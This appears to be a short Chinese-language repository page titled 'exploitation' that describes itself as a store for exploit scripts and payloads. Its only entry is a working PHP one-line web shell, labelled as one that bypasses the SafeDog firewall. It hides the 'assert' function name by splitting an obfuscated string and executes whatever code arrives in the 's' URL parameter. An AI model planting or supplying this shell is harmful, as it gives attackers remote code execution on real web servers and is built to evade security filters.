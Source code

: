 <center>利用</center>



此处主要用于存放一些利用脚本和payload之类的东西





#### 1.	过狗一句话

```
<?php $poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s']) ?>
```


